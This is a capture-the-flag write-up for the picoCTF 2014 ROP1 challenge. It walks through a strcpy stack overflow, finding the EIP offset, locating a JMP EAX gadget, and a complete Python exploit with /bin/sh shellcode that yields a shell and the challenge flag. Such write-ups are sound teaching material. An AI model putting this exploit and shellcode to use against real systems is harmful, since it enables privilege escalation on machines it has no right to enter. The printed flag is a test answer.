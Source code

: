 ```yaml
---
layout: post
title: "picoCTF 2014 ROP1"
date: 2014-11-07 19:59:32 -0500
author: [superkojiman]
comments: true
categories: [picoctf]
---
```


### Solved by superkojiman

ROP1 is a 100 point exploitation challenge. We're given the following C code for rop1 and are told that it's running on a machine with ASLR: 

```c
#include <stdlib.h>

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

void vuln(char *name){
    char buf[64];
    strcpy(buf, name);
}

int main(int argc, char **argv){
    be_nice_to_people();
    if(argc > 1)
        vuln(argv[1]);
    return 0;
}
```

From the code provided we can see that there's a buffer overflow in the vuln() function due to the strcpy() call. Using pattern_create.rb and pattern_offset.rb, we find that EIP is at offset 76:

```text
root@kali ~/pico-ctf/rop1
# ./rop1 `pattern_create.rb 100`
Segmentation fault (core dumped)

root@kali ~/pico-ctf/rop1
# gdb -q -c core -batch -n -ex 'p $eip'
[New LWP 6170]
Core was generated by `./rop1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3'.
Program terminated with signal 11, Segmentation fault.
#0  0x63413563 in ?? ()
$1 = (void (*)()) 0x63413563

root@kali ~/pico-ctf/rop1
# pattern_offset.rb 0x63413563
[*] Exact match at offset 76
```

Let's run the program within gdb and see what the state of the registers and the stack are at the time of the crash. I provided an input of 76 "A"s and 4 "B"s to overwrite EIP and set a breakpoint after the call to strcpy(); that is *vuln+24

```
gdb-peda$ pdisass vuln
Dump of assembler code for function vuln:
   0x08048e6d <+0>:     push   ebp
   0x08048e6e <+1>:     mov    ebp,esp
   0x08048e70 <+3>:     sub    esp,0x58
   0x08048e73 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x08048e76 <+9>:     mov    DWORD PTR [esp+0x4],eax
   0x08048e7a <+13>:    lea    eax,[ebp-0x48]
   0x08048e7d <+16>:    mov    DWORD PTR [esp],eax
   0x08048e80 <+19>:    call   0x80481e0
   0x08048e85 <+24>:    leave
   0x08048e86 <+25>:    ret
End of assembler dump.
gdb-peda$ br *vuln+24
Breakpoint 1 at 0x8048e85
gdb-peda$ r `python -c 'print "A"*76 + "BBBB"'`
[----------------------------------registers-----------------------------------]

EAX: 0xbfaf98a0 ('A' <repeats 76 times>, "BBBB")
EBX: 0x80481a8 (<_init>:        push   ebx)
ECX: 0xbfafa5c0 --> 0x524f0042 ('B')
EDX: 0xbfaf98ef --> 0xafa50042
ESI: 0x0
EDI: 0x80eb00c --> 0x8067850 (<__stpcpy_sse2>:  mov    edx,DWORD PTR [esp+0x4])
EBP: 0xbfaf98e8 ("AAAABBBB")
ESP: 0xbfaf9890 --> 0xbfaf98a0 ('A' <repeats 76 times>, "BBBB")
EIP: 0x8048e85 (<vuln+24>:      leave)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]

   0x8048e7a <vuln+13>: lea    eax,[ebp-0x48]
   0x8048e7d <vuln+16>: mov    DWORD PTR [esp],eax
   0x8048e80 <vuln+19>: call   0x80481e0
=> 0x8048e85 <vuln+24>: leave
   0x8048e86 <vuln+25>: ret
   0x8048e87 <main>:    push   ebp
   0x8048e88 <main+1>:  mov    ebp,esp
   0x8048e8a <main+3>:  and    esp,0xfffffff0
[------------------------------------stack-------------------------------------]

0000| 0xbfaf9890 --> 0xbfaf98a0 ('A' <repeats 76 times>, "BBBB")
0004| 0xbfaf9894 --> 0xbfafa571 ('A' <repeats 76 times>, "BBBB")
0008| 0xbfaf9898 --> 0xbfaf99a0 --> 0xbfafa5c2 ("ORBIT_SOCKETDIR=/tmp/orbit-root
")
0012| 0xbfaf989c --> 0x3
0016| 0xbfaf98a0 ('A' <repeats 76 times>, "BBBB")
0020| 0xbfaf98a4 ('A' <repeats 72 times>, "BBBB")
0024| 0xbfaf98a8 ('A' <repeats 68 times>, "BBBB")
0028| 0xbfaf98ac ('A' <repeats 64 times>, "BBBB")
[------------------------------------------------------------------------------]

Legend: code, data, rodata, value

Breakpoint 1, 0x08048e85 in vuln ()
gdb-peda$
```

After the leave instruction is executed, EIP will be set to 0x424242. EAX points to our buffer of "A"s and since the binary doesn't have the NX bit, we can execute shellcode on the stack. To bypass ASLR, we just need to find an address that will do a JMP/CALL EAX and set that as our return address. msfelfscan can find a list of instructions to accomplish this: 

```
root@kali ~/pico-ctf/rop1
# msfelfscan -j eax rop1
[rop1]
0x08048d86 call eax
0x08048df4 call eax
0x08048e3c call eax
0x08049691 call eax
.
.
.

0x080e142f jmp eax
0x080e336e push eax; ret
0x080e53b3 jmp eax
0x080e873b call eax
0x080ea02c push eax; retn 0x0805
0x080ed99c push eax; ret
.
.
.
```

Out of the list I picked 0x080e142f which is a JMP EAX. For shellcode, I picked one that would execute /bin/sh. The final exploit code:

```python
import struct

shellcode = (
"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb"+
"\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89"+
"\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd"+
"\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f"+
"\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42"
)

# eip offset 76
jmpeax = struct.pack("<I", 0x080e142f)  # jmp eax

print "\x90"*21 + shellcode + jmpeax
```

Finally, exploit the binary and read the flag:

```text
pico1139@shell:~/skj$ id
uid=11066(pico1139) gid=1017(picogroup) groups=1017(picogroup)
pico1139@shell:~/skj$ /home/rop1/rop1 `python ./sploit.py`
$ id
uid=11066(pico1139) gid=1004(rop1) groups=1017(picogroup)
$ cat /home/rop1/flag.txt
theres_no_need_to_guess
$ 
```

The flag is **theres_no_need_to_guess**
